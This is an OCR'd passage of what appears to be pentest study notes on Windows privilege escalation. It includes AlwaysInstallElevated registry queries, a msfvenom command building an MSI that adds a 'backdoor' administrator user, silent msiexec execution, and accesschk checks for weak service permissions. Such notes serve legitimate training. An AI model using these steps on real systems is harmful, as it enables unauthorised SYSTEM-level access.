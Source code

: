     -   To search for   AlwaysInstallElevated msi

        -   reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v AlwaysInstallElevated

        -   reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v AlwaysInstallElevated   

        -   *Note:  If you happen to get an error message similar to: *The system was unable to find the specified registry key or value*, it may be that a Group Policy setting for AlwaysInstallElevated was never defined, and therefore an associated registry entry doesn't exist.*

    -   msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi

    -   msiexec /quiet /qn /i C:\\evil.msi //run msi files in the background

        -   /quiet = Suppress any messages to the user during installation

        -   /qn = No GUI && /i* = *Regular (vs. administrative) installation

    -   Automate the process with Metasploit Module:  exploit/windows/local/always\_install\_elevated


-   **vulnerable services :**
    > "One possible way to escalate privileges is by exploiting misconfigured services. The goal is to embed a malicious file in a high privileged service. This file will then be executed the next time the service starts and will have the same privileges as the service possesses. As most services start with SYSTEM privileges, the chance to obtain SYSTEM privileges is high.    So, their folders, files, and registry keys must be protected with strong access controls. "

    > -\> icacls (windows vista + ) or cacls (windows xp) == show the permisions of files and folders  
    >
    > -\> Accesschk== is part of system internal suite can automatically check if we have write access To a Windows service with any user privilege
    
    > -\>quick note : after exploiting a vulnerable service successfully migrate quickly to another process or else your session will die very soon

-   **weak/insecure service permission**

    -   if  the service executable file can't change or not modifiable Weak service permissions can be used to modify the binary path in a service to change to another malicious file and execute that  malicious file (changing the binpath of the service)

    -   determine which Services can be modified by any authenticated user "Accesschk can automatically check if we have write access to a Windows service or have vulnerable privileges with a certain user level "

        -   accesschk.exe -uwcqv \"Authenticated Users\" \* /accepteula

            -   we are looking for servicename == SERVICE\_ALL\_ACCESS for {users , guest , everyone}

        -   accesschk.exe -uwcqv \[service\_name\]

            -   RW NT AUTHORITY\\SYSTEM

            -   SERVICE\_ALL\_ACCESS

            -   RW BUILTIN\\Administrators

            -   SERVICE\_ALL\_ACCESS

            -   RW NT AUTHORITY\\Authenticated Users
